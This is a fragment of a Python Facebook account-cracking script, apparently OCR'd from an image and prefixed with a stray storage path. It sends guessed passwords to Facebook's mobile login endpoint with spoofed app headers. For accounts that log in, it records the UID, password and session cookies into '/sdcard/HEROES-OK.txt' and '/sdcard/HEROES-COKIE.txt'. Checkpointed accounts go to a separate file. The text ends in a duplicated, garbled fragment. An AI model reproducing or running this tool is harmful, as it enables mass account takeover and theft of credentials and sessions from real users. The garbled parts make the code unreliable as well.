                                 'Accept-Encoding': 'gzip, deflate', 
                                'Accept': '*/*', 
                                'Connection': 'keep-alive', 
                                'Authorization':f'OAuth {accessToken}', 
                                'X-FB-Friendly-Name': 'authenticate', 
                                'X-FB-Connection-Type': 'unknown', 
                                'Content-Type': 'application/x-www-form-urlencoded', 
                                'X-FB-HTTP-Engine': 'Liger'
                                }
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                try:
                                        uid = po['uid']
                                except:
                                        uid = ids
                                if str(uid) in oks:
                                        break
                                else:
                                        print('\r\r\033[1;32m [HEROES-OK] '+str(uid)+' | '+pas+'\033[1;97m')
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        print("\r\r\033[1;33m Cookie: "+coki)
                                        open('/sdcard/HEROES-COKIE.txt','a').write(str(uid)+'|'+pas+ ' | ' +coki+'\n')
                                        open('/sdcard/HEROES-OK.txt','a').write(str(uid)+'|'+pas+'\n')
                                        oks.append(str(uid))
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                try:
                                        uid = po['error']['error_data']['uid']
                                except:
                                        uid = ids
                                if uid in oks:pass
                                else:
                                        open('/sdcard/HEROES-rnd-CP.txt','a').write(str(uid)+'|'+pas+'\n')
                                        cps.append(str(ids))
                                        break
                        else:continue
                loop+=1
        except Exception as e:
                pass

menu()
                pass

menu()
